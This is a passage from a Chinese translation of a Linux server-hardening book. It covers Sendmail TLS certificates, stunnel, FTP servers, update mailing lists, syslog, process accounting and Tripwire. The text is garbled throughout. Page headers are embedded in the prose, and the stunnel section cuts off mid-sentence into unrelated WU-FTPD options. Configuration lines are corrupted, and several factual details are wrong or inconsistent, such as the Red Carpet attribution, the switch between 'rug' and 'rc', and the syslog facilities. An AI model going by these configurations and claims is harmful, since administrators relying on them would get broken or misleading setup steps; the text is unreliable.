define(`confMAX_MESSAGE_SIZE`, '419430')dnl: 传入消息允许的最大字节数。由于此限制，Sendmail 可能会拒绝邮件正文。
```

## 垃圾邮件防护


# 安全端口 443

对 `MTA` 进行 `DoS` 攻击是针对你怀有敌意的黑客来说是一种流行且有效的攻击；不幸的是，`Sendmail` 提供了几个选项可以帮助应对威胁。

同样注意的是 `sendmail.cf` 中的 `PrivacyOptions` 设置。通过将其设置为以下内容（在较新版本的 `Sendmail` 中，这是默认设置），可以防止用户使用 `EXPN` 和 `VRFY` 命令，这两个命令都可以用于查找和验证电子邮件地址：

```
O PrivacyOptions=authwarnings,noexpn,novry
```

# 传输层安全

`TLS` [Treece04] 是一种基于 `SSL` 的通用协议，通过使用 `PKC` 提供加密和消息完整性。当应用于 `Sendmail`（从 8.11 版本开始原生支持）时，通常被称为 `STARTTLS`。具体而言，`TLS` 提供：

- **身份验证：** 你可以确定远程主机确实其所声称的身份。
- **隐私：** 防止窃听。
- **完整性：** 你确信数据没有经过任何形式的修改。

以下选项用于配置 `TLS` 所用证书的路径，必须添加到 `generic-linux.mc` 宏文件中：

```
(`CERT_DIR`, `MAIL_SETTINGS_DIR` `certs`) `dn1
(`confCONFACERT_PATH`, `CERT_DIR`) `dn1
(`confCONFACERT`, `CERT_DIR/CAcert.pem`) `dn1
(`conffSERVER_CERT`, `CERT_DIR/cert.pem`) `dn1
(`conffSERVER_KEY`, `CERT_DIR/key.pem`) `dn1
(`confLIENT_CERT`, `CERT_DIR/cert.pem`) `dn1
(`confLIENT_KEY`, `CERT_DIR/key.pem`) `dn1
```

你自然需要将 `MAIL_SETTINGS_DIR` 和 `CERT_DIR` 替换为系统上的实际路径：我们建议将 `CERT_DIR` 使用 `/etc/mail/certs`。必要的证书可以使用 `SSL` 提供的 `CA.pl` 脚本（`/etc/ssl/misc/CA.pl`）生成。首先，创建一个新证书，并在适当的地方填写你的详细信息：

```
./CA.pl -newca
CA 证书文件名（或按回车创建）
```

# 444 Linux 网络安全

```
正在制作 CA 证书 ...

正在生成 1024 位 RSA 私钥

++++++

......

正在将新私钥写入 './.demoCA/private/cakey.pem'

输入 PEM 口令：

验证 - 输入 PEM 口令：

---
```

你将被要求输入信息，这些信息将整合到证书请求中。

你即将输入的内容被称为区别名称（`Distinguished Name`，简称 `DN`）。

有很多字段，但你可以留一些空白处。

某些字段将有一个默认值，

如果你输入 '.'，该字段将留空。

```
---

- 国家名称（两位代码） [AU]:US

- 州或省份名称（全称） [Some-State]: Georgia

- 地区名称（例如，城市） [:]:Atlanta

- 组织名称（例如，公司） [Internet Widgets Pty Ltd]:Example Ltd

- 组织单元名称（例如，部门） []:

- Common名称（例如，你的名字） []:Peter Smith

- 电子邮件地址 []:pete@example.com
```

这生成了 `CA` 文件 `demoCA/cacert.pem`，你现在应该将其复制到 `/etc/mail/certs/Cacert.pem`。

接下来，为服务器生成私钥：

```
# ./CA.pl -newreq
正在生成 1024 位 RSA 私钥
++++++
......
正在将新私钥写入 'newreq.pem'
输入 PEM 口令：
验证 - 输入 PEM 口令：
---
```

你将被要求输入信息，这些信息将整合到证书请求中。

你即将输入的内容被称为区别名称（`Distinguished Name`，简称 `DN`）。

有很多字段，但你可以留一些空白处。

# 安全端口 445

```
某些字段将有一个默认值，

如果你输入 '.'，该字段将留空。

--

- 国家名称（两位代码） [AU]:US

- 州或省份名称（全称） [Some-State]:Georgia

- 地区名称（例如，城市）：Atlanta

- 组织名称（例如，公司） [Internet Widits Pty Ltd]:Example

- 组织单元名称（例如，部门） [:

- Common名称（例如，你的名字） [:Peter G Smith

- 电子邮件地址 [:]:pete@example.com
```

将生成的文件 (`newreq.pem`) 复制到 `/etc/mail/certs/key.pem`。

最后一步是使用我们生成的证书（自签名证书）对此私钥进行签名：

```
# ./CA.pl -sign
正在使用来自 /etc/ssl/openssl.cnf 的配置
输入 ./demoCA/private/cakey.pem 的口令：
检查请求与签名是否匹配
签名正常
证书详情:
  序列号: 1 (0x1)
有效期
  生效日期: Aug 31 16:19:03 2004 GMT
  失效日期: Aug 31 16:19:03 2005 GMT
主体:
  countryName = US
  stateProvinceName = Georgia
  localityName = Atlanta
  organizationName = Example Ltd
  commonName = Peter G Smith
  emailAddress = pete@example.com
X509v3 扩展:
  X509v3 Basic Constraints:
  CA:FALSE
  Netscape Comment:
  OpenSSL Generated Certificate
```

# 465 Linux 安全

```
X509v3 主体密钥标识符:

X509v3 权威密钥标识符:

X509v3 Basic Constraints:

  CA:FALSE
```

# Qmail 插件

由于 `Qmail` 的目标是快速和紧凑，与其它 `MTA`（邮件传输代理）相比，它的功能相对较少（不过这并不意味着它没有为大多数用户提供足够的功能），因此可以使用一些第三方插件。

`Chris Jones` 在 `http://www.palomine.net/qmail` 维护着多个补丁，包括通过 `cdb` 数据库验证 `POP3` 用户身份、记录中继日志以及焦油坑（`tarpitting`，用于防止潜在的垃圾邮件尝试）。

一个更有野心的项目由 `qmailrocks.org` (`http://www.qmailrocks.org`) 提供。它不仅为多种 `Linux` 发行版提供了 `Qmail` 的安装指南，还托管了大量的插件集合，可以单独使用，也可以作为软件包提供。后者这种命名为 `qmailrocks` 的选项特别有吸引力，因为它包含了用于自动化应用补丁和安装插件的脚本，以及 `Qmail` 本身。在 `qmailrocks` 的插件中包括：

- `SMTP` 身份验证与 `TLS`
- 邮件列表管理器和自动回复器
- `Courier-imap` `IMAP` 服务器
- `SquirrelMail`（基于 Web 的邮件检索前端）
- `SpamAssassin`（垃圾邮件过滤器）
- `Clam` 病毒病毒（在第 7 章介绍）
- `Qmailadmin`，一个基于 Web 的管理工具

# POP3 和 IMAP

`POP3` 和 `IMAP` 提供了一种让远程用户跨网络检索邮件的方法。`POP3` 最常见，但 `IMAP` 提供的额外功能使其成为一种日益受欢迎的替代方案。如果你使用 `Qmail`，可以使用 `POP3` 服务器——`qmail-pop3d`，它易于配置；对于 `Sendmail` 或其它 `MTA`，`Qpopper` 是一个流行且广泛使用的应用程序。

`POP3` 和 `IMAP` 的共同缺点是它们都是明文协议：客户端和服务器之间的所有流量（包括登录详情和邮件正文）都可以被嗅探连接的恶意用户轻易查看。然而，这两种协议都有加密版本（通过 `SSL`），在本节中，我们将介绍实现它们的方法。

# Stunnel

即使你的 `POP3` 或 `IMAP` 服务器没有原生支持该协议的安全变体（分别为 `SPOP` 和 `IMAPS`），一种快速的黑客方法（在此有详细介绍）也可以让你结合它们使用加密功能，从而省去寻找和安装 `SPOP`/`IMAPS` 服务器的麻烦。

`Stunnel` 被称为一个“通用封装器”，允许你通过 `SSL` 隧道传输 `TCP`（`FTP` 是一个显著例外）。如果你系统中还没有这个实用工具，可以从 `http://www.stunnel.org/` 获取（当然，你还需要一个 `SSL` 库，例如 `OpenSSL`）。在服务器端，你可以使用 `stunnel` 为用户提供 `SPOP` 和 `IMAPS` 服务。

# 密钥生成


## 第一步是为服务器生成密钥

`/etc/stunnel` 目录包含一个实用的 shell 脚本 `generate-stunnel-key.sh`，它调用 `openssl` 来生成所需的 `x509` 证书：

```bash
USE_DH=0

openssl req -new -x509 -days 365 -nodes -config ./stunnel.cnf \
-out stunnel.pem -keyout stunnel.pem

test USE_DH -eq 0 || openssl dhparam 512 >> stunnel.pem

openssl x509 -subject -dates -fingerprint -noout -in stunnel.pem

chmod 600 stunnel.pem
rm -f stunnel.rnd
```

由于我们在本书中多次涵盖了生成证书的内容（包括本第 7 章），我们假设你已经理解这一过程。

如果你没有在 `/etc/stunnel` 目录下执行此脚本，请将生成的 `.pem` 文件移动到 `/etc/stunnel`。

### 配置

接下来，你需要为 `stunnel` 创建一个配置文件。我们将创建一个适用于 `POP3` 的配置，但请记住，如果需要，大多数其他基于 `TCP` 的服务也可以与 `stunnel` 配合使用。

`Stunnel` 提供了内置的 `root` 功能，因此使用它似乎是明智的；然而，除了为 `stunnel` 创建专门的用户和组，并创建 `/root/stunnel` 目录结构外，监狱环境（`jail`）不需要任何其他准备：

```bash
# mkdir -p /chroot/stunnel /chroot/stunnel/etc
# chroot/stunnel/var/run
# groupadd stunnel
# useradd -g stunnel -s /sbin/nologin
```

创建文件 `/etc/stunnel/stunnel.conf`，并添加以下条目：

```bash
chroot = /chroot/stunnel
setuid = stunnel
setgid = stunnel
pid = /stunnel.pid
debug = mail.notice
client = no
```

你还需要设置新创建证书的位置；这将允许客户端在连接时请求它（这样他们就可以确定你是否是你所称）：

```bash
cert = /etc/stunnel/stunnel.pem
```

证书路径是绝对路径（不相对于监狱环境），因为证书是在 `stunnel` 调用 `chroot()` 之前加载的。这允许将证书存储在 `chroot` 区域之外以获得额外的安全性。

当然，这不能证明客户端的真实性。强制客户端提供自己的证书无疑是最安全的选项，但——由于创建和……涉及的工作量巨大——这可能并不实际。

这些默认值应该足够了（诚然，它们不应该更宽松）。

可以使用 `guestserver` 选项通过允许的主机掩码列表将匿名访问限制在某些主机上：

```
guestserver *.example.com
```

如果你想完全禁用匿名访问（如果你不需要它，你应该这样做），请单独使用 `guestserver` 选项，而不指定任何主机。

最后，你还可以使用 `limit` 选项来限制每个类别同时连接的用户数：

```
limit <class> <n> <times> <message file>
```

```
class 可以是 any, real, guest 或 anonymous 中的任意一个；n 是用户最大数量；times 是应用此限制的时间段；message-file 是包含显示消息的文件位置，该消息将向被拒绝访问的用户显示。例如：
```

```
limit anon 5 any /etc/ftp_toomany
```

## 日志选项

`WU-FTP` 中使用三个主要选项来控制日志：

- `log commands <class>`: `class` 可以是 `real`, `guest`, `anonymous` 或 `all` 的任意组合。这将记录给定类别中的用户所使用的所有命令。

- `log transfers <class> [<direction>]`: 记录给定类别用户文件传输的详情。可选地，你也可以包括指向服务器的文件传输方向 `incoming`，以及从服务器传输的传输 `outgoing`。

- `log security <class>`: 记录安全违规行为；即用户发布了其类别禁止使用的命令。许多此类命令是简单的错误（例如，用户没有意识到自己的访问受限），但这是捕获试图利用服务器的用户的好方法。

我们建议为所有类别的用户启用这三个日志选项。

## 454 Linux 网络安全

### VSFTPD

`VSFTPD` (`Very Secure FTPD`) 在设计时考虑了安全性，因其速度和安全性而闻名。尽管体积很小，但 `VSFTPD` 的功能足够强大，可以满足大多数网站的需求。它还是为以下站点提供 `FTP` 服务的服务器：`redhat.com`, `ftp.suse.com`, `ftp.debian.com`, `ftp.freebsd.org`, `ftp.opensbsd.org`, `ftp.gnu.org` 和 `ftp.kernel.org`。这种认可再高不过此了。`VSFTPD` 可以从 `http://vsftpd.beasts.org` 获取。

#### 安装 VSFTPD

从 `ftp://vsftpd.beasts.org/users/cevans/` 获取最新版本的 `VSFTPD`，解压它，进入源码目录；通过执行 `make`，然后执行 `make install` 来编译应用程序。

接下来，为服务器创建一个用户和组：我们建议将两者都命名为 `vsftpd`：

```bash
# groupadd vsftpd
# useradd -g vsftpd -s /sbin/nologin
```

你还需要创建目录 `/usr/share/empty` (`mkdir /usr/share/empty`)。如果有有效的家目录：我们建议使用 `/var/ftp` (`useradd -d /var/ftp ftp`)。但是，该目录不应由 `FTP` 用户所有或可写：

```bash
# chown root:root /var/ftp
# chmod og-w /var/ftp
```

#### 配置

将 `vsftpd.conf` 文件复制到 `/etc`，并在文本编辑器中打开它。该文件中的所有选项都有详细的注释，因此我们不会在这里浪费空间详细说明它们。请注意，配置文件指出，给出的选项并非详尽列表，而是最常用的选项。`vsftpd.conf` 的帮助页包含更详细的列表。

令人欣慰的是，`VSFTPD` 提供的大多数安全选项默认都是启用的；不再需要反复翻阅帮助页来发现需要启用的更冷门的选项，从而让你能够有效地保护服务器。

#### TLS (SSL) 支持

`VSFTPD` 支持使用 `SSL` 提供 `TLS`（如本章前面的部分所述），但在其支持上更为谨慎，建议仅在绝对必要时才启用（因为在 `OpenSSL` 中发现的任何漏洞都会削弱 `FTP` 服务器的安全性）。

默认情况下，`vsftpd` 二进制文件和配置文件都禁用了 `TLS`：要启用它，你需要重新编译 `VSFTPD`，首先修改以下行：

```c
#undef VSF_BUILD_SSL
```

改为：

```c
#define VSF_BUILD_SSL
```

在 `builddefs` 中进行修改。构建了启用 `SSL` 的二进制文件后，你可以在 `vsftpd.conf` 配置中添加 `ssl_enable = YES` 选项。

你还需要创建一个证书——我们在本章中已经介绍过多次。将创建的证书复制到 `/usr/share/ssl/certs/vsftpd.pem`，这是 `VSFTPD` 查找的默认位置。

## 总结

虽然这并不是服务器软件的详尽列表，但我们详细介绍了如何加固一些流行软件的安全性，并为对安全敏感的用户探索了替代方案。意料之中，此类替代方案的功能通常较少，但在许多情况下，这会导致运行更快、更高效的守护进程。即使你喜欢的软件没有在这里列出，对涉及原理的讨论也应该为你配置配置时需要考虑的因素提供良好的基础。

正如我们反复强调的，所有服务（无论是提供给本地客户端还是通过互联网提供）都应该仔细配置。仅使用必要的服务并将其更新到最新版本是非常关重要的。

## 456 Linux 网络安全

## 终注

- 1. 如果你不熟悉 `Perl` 的正则表达式，你可能想看一些示例。


- 2. 早期版本的 `BIND` 支持 `-g` 选项，该选项在 `BIND 9` 中已被移除。

- 3. 使用 `NTP` 保持时钟同步是非常重要的。

- 4. 根据 `D.J. Bernstein` 的说法，随机采样主机中有 42% 正在运行 `Sendmail`。

- 5. 你可能考虑将它们放在 `DMZ` 中以保护你的网络。

## 参考文献

- `[Apache]` `Apache` Project, "Security Tips for Server Configuration."

- `[BIND]` `BIND` 中的已知漏洞。

- `[CGIWrap]` `CGIWrap` 主页。

- `[Coker]` `Coker, Russell`, "Securing Sendmail Without Source Code."

- `[Cox04]` `Cox, Mark I`, "Overview of Vulnerabilities in Apache 2.0."

- `[DNSSEC]` `DNSSEC` 主页。

- `[Linux NIS]` Linux `NIS` 项目。

# 11 保持安全

## 本章内容

- 保持更新

- 日志与日志分析

- 系统完整性

- 入侵检测

- 从受损中恢复

遗憾的是，确保网络安全并不是安装后完成的一次性过程，而是一项持续性的任务：软件会变得过时，此前认为安全的程序会出现新漏洞，而用户也会来来去去。虽然实现本书书中涵盖的主题应该能为你提供一个极佳的开端，但这远不是故事的结束。

本章涵盖了安全领域的日常方面，例如保持新软件更新、分析日志文件以及进行更深层次的渗透测试。遗憾的是，这是一个经常被忽视的领域：在许多系统中，日志文件被忽略并任其堆积在 `/var/log` 中，而软件更新只在出现有用的新功能或发现漏洞时才会进行。我们将探索哪些日志存储在何处、它们包含哪些信息以及第三方日志分析工具；这些信息在检测入侵尝试时可能是无价之。

我们还涵盖了系统完整性和入侵检测的主题。虽然这两种方法都不能防止攻击发生，但它们可以用于检测入侵或入侵尝试，让你尽早发现破解者已进入你的系统。

最后，我们将假设一个最坏的情况，并研究你为从系统受损中恢复并追溯真凶可以采取的措施。

## 11.1 保持更新

保持系统安全的最简单且有效的方法之一是保持软件补丁和新版本（特别是互联网服务）的最新状态。正如你在上一章中看到的，许多网络服务有着长期的漏洞史，而这些漏洞是破解者攻击的热点。

如果你来自闭源软件世界，你可能对整个“获取最新版本”的文化感到相当愤世嫉俗，因为这通常是一种营销策略，旨在说服客户花费更多钱。在开源世界，情况略有不同，许多新版本的发布仅仅是为了修复新浮出的安全漏洞。由于此类软件通常是免费的，你唯一的开销就是更新所需的时间，正如你所看到的——有几种技术可以加速更新过程。

### 应用程序邮件列表

偶尔浏览特定应用程序的网站来检查是否有新版本，并不是一种保持实新的的高效方法。更好的方法是利用为 `Apache` 或 `BIND` 等大型应用程序运行的邮件列表。通常会有几个可用列表，其中至少有一个会涵盖安全公告。公告列表的流量通常很低（因为列表有审核员），你可以确信如果出现任何漏洞，公告将很快发布。（开源社区以对安全事件的响应速度而闻名。）某些列表包括：

- `announce-subscribe@httpd.apache.org`: `Apache` 公告。要订阅，请向此地址发送空邮件。

- `majordomo@Lists.Sendmail.ORG`: `Sendmail` 公告。要订阅，请向此地址发送消息，正文为 `subscribe sendmail-announce`。

- `qmailannounce-subscribe@list.cr.yp.to`: `Qmail` 公告列表。要订阅，请向此地址发送空邮件。

- `bind-announce@isc.org`: `BIND` 公告：向此地址发送空邮件即可完成订阅。

- `Majordomo@wu-proftpd.org`: `WU-FTPD` 公告。要订阅，请向此地址发送以下文本：`subscribe wuftpd-announcement`。

- `proftpd-announce-request@proftpd.org`: `ProFTPD` FTP 服务器的公告。向此地址发送空消息即可订阅。

当然，还有许多多多的列表。这里提到的所有列表都被描述为“低流量”或“极低流量”，且仅用于公告。如果你特别感兴趣，这里列出的所有应用程序还为开发者和用户维护其他列表；请查看它们的网站以获取更多详情。

### 安全邮件列表

另一个有用信息源是通用安全邮件列表，它们提供了对各种平台和应用程序新出现漏洞的讨论。最流行的两个列表是 `CERT` 和 `BugTraq`，但两者对如何处理漏洞披露持有了截然相反的观点。`BugTraq` 倾向于完全披露风格，鼓励用户尽可能提交更多关于他们发现的漏洞的信息。`CERT` 则采取相反的立场，认为这种公开披露有助于黑客。每种类型的列表都有优缺点，你应该两个都订阅：

- `majdomo@cert.org`: `CERT` 公告。

- `bugraq-subscribe@securityfocus.com`: `BugTraq` 列表。

- `http://lists.netsys.com/mailman/full-disclosure/`: 完全披露（`Full Disclosure`）邮件列表。

- `security-basics@securityfocus.com`: 安全基础列表。

- `incidents-subscribe@securityfocus.com`: 事件列表。

如果这两个列表的流量太大，你可以选择通过 WWW 归档阅读消息，而不是订阅。别忘了访问你的 Linux 发行版主页；它几乎肯定会维护一个或多个安全邮件列表。

### Up2Date

`Red Hat/Fedora` 包含了自己的自动更新工具 `up2date`。由于其特定于发行版的特性，我们不再在此详述；但如果你使用这两个发行版之一，你应该意识到它。当结合 `Red Hat Network`（一种可以在 `https://rhn.redhat.com/` 获取的免费订阅服务）时，`up2date` 可以自动化下载和安装最新软件的过程，同时解决依赖关系并确保配置文件保持完整。

### 使用 Red Carpet 进行补丁管理

补丁管理（`Patch Management`）是闭源世界中的流行概念，提供了一种保持更新的方法，无需检查每个供应商网站的补丁新闻。通常，用户会（付费）订阅维护各种应用程序补丁和更新的第三方；然后用户可以使用自动化工具查询该数据库，以确保其系统是最新的。

`Red Carpet` 类似于 `up2date`，不同之处在于它不依赖 `Red Hat`，并且运行在多种基于 `RPM` 的 Linux 系统上。最新版本 `Red Carpet2` 已知可在以下发行版上运行：

- 红帽 (`Red Hat`) 和红帽企业级 Linux (`RHEL`)

- `SuSE`, `SLD` (`SuSE Linux Desktop`) 和 `SLES` (`SuSE Linux Enterprise Server`)

- `Fedora`

- `Mandrake`

其前身 `RedCarpet` 也支持 `SuSE` 的企业桌面 (`SLEC`) 以及 `Debian`。在后续讨论中，我们将假设你正在使用 `Red Carpet` 版本 2，并将其简称为 `Red Carpet`。

### 安装

`Red Carpet` 的 `RPM` 包可以从 `Debian` 的 `FTP` 站点获取，地址为 `ftp://debian.org/pub/redcarpet2`。对于最小化安装，只需要 `carpet*.rpm` 和 `-*.rpm` 包，但如果你想使用图形界面（`GUI`）而不是命令行界面，还需要下载 `carpet*.rpm`。

### 配置

安装 `RPM` 包后，你可以使用以下命令启动 `Red Carpet` 守护进程 (`rcd`)：

```
/etc/init.d/rcd start
```

守护进程将连接到 `Debian` 的一个 `FTP` 镜像站，并等待进一步指令。你现在可以使用管理命令行工具 `rug` 来查询远程数据库。在 `Red Carpet` 数据库中，内容被分为通道（`channels`）；你可以通过带参数调用 `rug` 来查看（以下示例是在 Linux 系统执行执行）：

```
rug channels
```

| 别名 | 名称 |
|---|---|
| evolution-devel | Evolution Development |
| evolution-snapshot | Evolution Snapshot |
| redcarpet | Red Carpet |
| redcarpet2 | Red Carpet 2 |
| redhat-9 | Red Hat 9 |
| xaminanconnector | Debian Connector |
| xaminanconnector-snaps | Debian Connector Snapshots |
| x2 | Debian 2 |
| ximevolution | Debian Evolution |
| mono | mono |
| ooo-snapshot | ooo-snapshot |


| rcd-snaps | rcd snapshots |

你现在可以使用以下参数订阅你感兴趣的通道：

```
rc sub redhat-9
```

已订阅通道 `redhat-9`。

# 更新系统

当你完成通道订阅后，使用 `refresh` 参数获取每个通道的当前包列表：

```
rc refresh
Refresh complete
```

你现在可以请求 Red Carpet 更新系统，使其与包列表同步：

```
rc update
```

Red Carpet 现在将开始更新过程，并在安装每个包之前提示你。要实现自动更新，请向命令传递 `-y` 选项并将关闭提示。为了进一步实现流程自动化，你可能想添加一个 `crontab` 条目来使其每天运行一次（最好在系统相对空闲的凌晨早晨进行）。

# 日志记录与分析

尽管 Linux 提供的日志非常全面，但许多管理员未能充分利用它们，仍然对系统上发生的情况一无所知。这在某种程度上可能是因为有太多信息需要筛选；但绝大多数日志数据并不代表安全违规，人们可能会觉得没必要去会它们。在本节中，我们将查看 Linux 系统上一些重要的日志文件以及处理它们的工具，以便快速找到重要信息。

# 保护 /var/log

大多数日志文件（特别是所有与系统相关的）都位于 `/var/log`。由于攻击者获得 root 权限后的首要任务之一就是删除这些日志中的自己的痕迹，因此该目录应该受到保护。如果你在使用第 8 章“系统加固”中介绍的任何 ACL 项目，你可能希望将 `/var/log` 的内容标记为只追加（append-only）。

遗憾的是，这使得 `logrotate` 的运行变得困难：你要么授予 `logrotate` 删除该目录中文件的权限（这本身可能会被攻击者利用来删除你的日志），要么禁用日志轮转。后者方法最安全，而且考虑到磁盘空间相对便宜，这是我们推荐的方法。

# Syslog

`syslog` 守护进程负责 Linux 中大部分的日志记录，并决定每种类型消息的发送位置。配置文件为 `/etc/syslog.conf`，这里是取自 Slackware 系统的示例：

```
# 取消注释以在控制台上查看内核消息。
#kern.* /dev/console
```

```
# 记录任何 'info' 或以上但低于 'warn' 的日志。
# 排除 authpriv, cron, mail 和 news。这些日志记录在其他地方。
*.info;!warn;authpriv.none;cron.none;mail.none;news.none \
/var/log/messages
```

```
# 记录任何 'warn' 或以上的级别的日志。
# 排除 authpriv, cron, mail 和 news。这些日志记录在其他地方。
*.warn;authpriv.none;cron.none;mail.none;news.none \
/var/log/syslog
```

```
# 调试信息在此处记录。
#.debug /var/log/debug
```

```
# 私有认证消息日志：
authpriv.* /var/log/secure
```

```
# Cron 相关日志：/var/log/cron
cron.*
# 邮件相关日志：/var/log/maillog
mail.*
# 紧急级别消息发送给所有用户：*.emerg

# 此日志用于新闻和 uucp 错误：-var/log/spool
uucp,news.crit
```

配置文件中的每条目都由两部分组成：选择器（selector）和要执行的动作（action）。选择器本身分为两部分——第一部分是设施（facility），第二部分是优先级（priority），它们用冒号分隔。设施有 `auth`, `authpriv`, `cron`, `daemon`, `kernel`, `local0`, `local1`, `local2`, `mail`, `news`, `syslog`, `user` 和 `now`。优先级有 `debug`, `info`, `notice`, `warn`, `err`, `crit`, `alert` 和 `emerg`。

选择器可以是设施、优先级，也可以两者的结合。例如，`authpriv.*` 匹配所有来自 `authpriv` 设施的消息。`*.err` 匹配所有 `err` 优先级的消息。`authpriv.err` 匹配所有来自 `authpriv` 设施且优先级为 `err` 的消息。

动作是对匹配选择器的消息要执行的操作。常见的动作是将消息记录到文件、丢弃消息或执行程序。例如，`* /var/log/messages` 将所有消息记录到 `/var/log/messages` 文件。`* /dev` 丢弃所有消息。`* |/usr/bin/logprogram` 为所有消息执行 `/usr/bin/logprogram` 程序。

当系统重启时，伪用户 `reboot` 会显示登录；因此，也可以使用 `last` 命令来查看最近系统重启的时间：

| last reboot | |

| :--- | :--- |

| reboot system boot 2.4.20 Wed Sep 8 12:21 (08:56) |

| reboot system boot 2.4.20 Wed Sep 8 12:16 (09:02) |

| reboot system boot 2.4.20 Sat Sep 4 00:56 (4+11:13) |

`wtmp begins Sat Sep 4 00:55:29 2004`

# BSD 进程计数 (BSD Process Accounting)

在 Linux 发行版中，默认几乎总是启用日志到 `wtmp`，但接的 BSD 进程计数方法并非如此——某些发行版启用了它，而某些则没有。正如名称所示，该服务源自 BSD 世界，提供系统上运行进程的日志信息。如果你的系统没有启用此功能，而你又利用它（我们建议你这样做），请在 2.4 和 2.6 内核配置框（`menuconfig`）的通用设置（General Setup）菜单中设置 `CONFIG_BSD_PROCESS_ACT`。你还需要 GNU 计数工具包（http://savannah.gnu.org/projects/acct/），它提供了用于进程计数的用户态应用程序。安装此包后，你需要创建一个用于存储计数信息的目录；具体位置并不重要，我们建议使用 `/var/account`。你还需要在该目录中创建账户文件，因为如果该文件不存在，进程计数将不会创建它。同样，名称并不重要，我们建议命名为 `pacct`：

- `mkdir /var/account`

- `touch /var/account/pacct`

确保这些文件归 `root` 所有，并设置权限允许用户读取文件，但仅允许 `root` 写入：

- `chown root.root /var/account/pacct`

- `chmod 0644 /var/account/pacct`

使用 `acct` 工具来开启和关闭计数。若要在启动时启用计数，请编辑 `/etc/rc.local` 并添加以下代码：

```
if [ -x /sbin/accton ]
then
    /sbin/accton /var/account/pacct
    echo "Process accounting turned on."
fi
```

你现在需要重启系统使所有更改生效。

进程计数提供的第一个工具是 `ac`，它显示用户连接的总时间信息（基于从 `wtmp` 获取的登录/注销时间）。最有用的选项是 `-d` 和 `-p`，分别显示每日总计和个人总计：

```
# ac -dp
root               5.24
Sep 7 total        5.24
pete               6.37
root               12.22
Sep 8 total        18.59
pete               4.43
root               4.43
Today total        8.86
```

`sa` 命令显示所有被跟踪的计数信息的摘要：


# sa
```
65  2939.60re 0.13cp Avio 414k
2   342.70re  0.07cp Avio 1122k sshd*
2   342.53re  0.03cp Avio 658k bash
23  1041.60re 0.02cp Avio 329k ***
2   346.62re  0.01cp Avio 1209k sendmail*
14  0.01re    0.00cp Avio 355k ac
5   0.00re    0.00cp Avio 334k getty
4   0.00re    0.00cp Avio 362k grep
2   0.00re    0.00cp Avio 543k rc.6*
2   0.00re    0.00cp Avio 542k ls
3   0.00re    0.00cp Avio 336k sa
2   0.00re    0.00cp Avio 330k killall5
2   0.00re    0.00cp Avio 360k cat
2   0.00re    0.00cp Avio 336k stty
```

第一列显示进程消耗的 CPU 时间（秒），第二列显示“实际时间”（real time），同样以秒为单位。第三列显示平均核心使用率，这次单位为 KB。第四列显示 I/O 操作的平均次数，第五列显示 CPU 存储使用率。最后是进程名称。

`sa` 有许多实用的命令行开关，包括 `-m`（打印每个用户资源使用的摘要）、`-c`（以百分比显示 CPU 使用率列）和 `-u`（显示启动进程的用户名）。更多细节请参阅手册帮助页（man pages）。

在进程计数流程中，我们查看的最后一个工具是 `lastcomm`（虽然也提供了最后一个工具，但我们已经看过了），它显示最近执行的命令信息。在不带参数的情况下，`lastcomm` 显示 `/var/account/pacct` 中出的所有信息；或者，你可以使用 `-user <username>` 或 `-command <command>` 选项来缩小输出范围：

```
# lastcomm --user root
# lastcomm --command grep
```

# Linux 网络安全

## 11.3 系统完整性

如果攻击者获取了你系统的访问权限，他会尽可能长时间地隐藏起来（假设他的动机不是破坏）；而黑客对受损的系统维持多年访问权限的情况并不罕见。检测入侵者存在的最佳方法之一是监控系统文件的完整性。在本节中，我们将查看两个最流行的工具：Tripwire 和 Chkrootkit。

### Tripwire

Tripwire 是一种文件完整性监控工具，用于检测系统文件的更改（正如你在第 2 章“理解问题”所示，许多 rootkit 会用木马副本替换系统二进制文件）。通过对创建并对比文件的 MD5 校验和，即使是最细微的变化也能被检测到；即使攻击者费力确保修改后的文件大小与其原始文件完全相同。Tripwire 提供商业版和开源版；尽管正如人们可能预想的那样，GPL 版本（我们在这里查看的版本）并不是商业版的简单缩水版。

### 安装

Tripwire 可以从 `http://sourceforge.net/projects/tripwire/` 获取，你也可以在附带的光盘中找到 `2.3.1-2` 版本。解压后，进入新创建的目录，以 `root` 身份执行 `make release`；这将为 Linux x86 平台编译并安装 Tripwire。如果你使用的是不同的处理器架构，则需要修改 `Makefile` 中的 `SYSPRE` 变量。

安装完成后，`/usr/bin/` 下将存在四个二进制文件：

- `tripwire`: 用于创建数据库以及运行随后的检查。
- `twadmin`: Tripwire 管理工具，用于配置等任务。
- `twpprint`: 以明文格式显示 Tripwire 数据库。
- `siggen`: 显示文件的哈希值。

### 日志分析

遍历日志文件寻找可疑条目可能是痛苦；幸运的是，有很多软件可以减轻这种负担。一个极好的起点是 `http://www.log.org/apps/Analyzers/`。我们的分析工具是 Lire，可以从 `http://www.logreport/` 获取。Lire 可以为多种日志（包括 Sendmail、Postfix、Apache、BIND、Iptables、MySQL 和 syslog）创建多种格式的报告（包括 HTML、XML 和 PDF）。

安装可能会棘手，因为需要许多 Perl 模块（每个模块都有自己的依赖）。如果你不熟悉自动下载和安装 Perl 模块及其依赖的 CPAN shell，现在是学习的好机会，它可以简化你的生活。关于 CPAN shell 的讨论超出了本书的范围，但在命令行输入 `perl CPAN -e shell` 即可开始，且手册页包含了大量信息。

## 472 Linux 网络安全

稍稍后我们将更深入地查看这些工具。

Tripwire 会在 `/etc` 下为它自己创建一个目录 (`/etc/tripwire`)，其中包含：

- `twcfg.txt`: 示例配置文件。
- `twinstall.sh`: 编译后后安装脚本。
- `twpol.txt`: 默认策略文件，用于进一步配置 Tripwire 的行为。

## 策略配置

Tripwire 策略配置文件 (`/etc/tripwire/twpol.txt`) 控制着 Tripwire 将保护的文件和目录，以及它将保护的修改类型。虽然 Tripwire 随附的默认策略文件对于大多数用户来说已经足够，但不可避免地会有一个阶段，你你需要比默认设置更高的灵活性，因此我们在这里将介绍策略文件语法的基础知识。

## 对象与属性

Tripwire 策略规则的基本语法为：

```
object -> property modes;
```

其中 `object` 是文件或目录，`property modes` 是对象的属性列表，你可以对这些属性进行比较（在这种情况下，它们前面加一个 `+` 号）或忽略（在这种情况下，它们前面加一个 `-` 号）。有效的属性模式有：

- `a`: 访问时间戳
- `b`: 分配的块数
- `c`: Inode 时间戳（创建/修改）
- `d`: inode 所在的设备 ID
- `g`: 所有者的 GID
- `i`: Inode 号
- `l`: 文件大小是否增加
- `m`: 修改时间戳
- `n`: 链接数（inode 引用计数）
- `p`: 权限和文件模式位
- `r`: inode 指向的设备 ID（用于设备对象）
- `s`: 文件大小
- `t`: 所有者的 UID
- `C`: CRC-32 哈希值
- `H`: Haval 哈希值
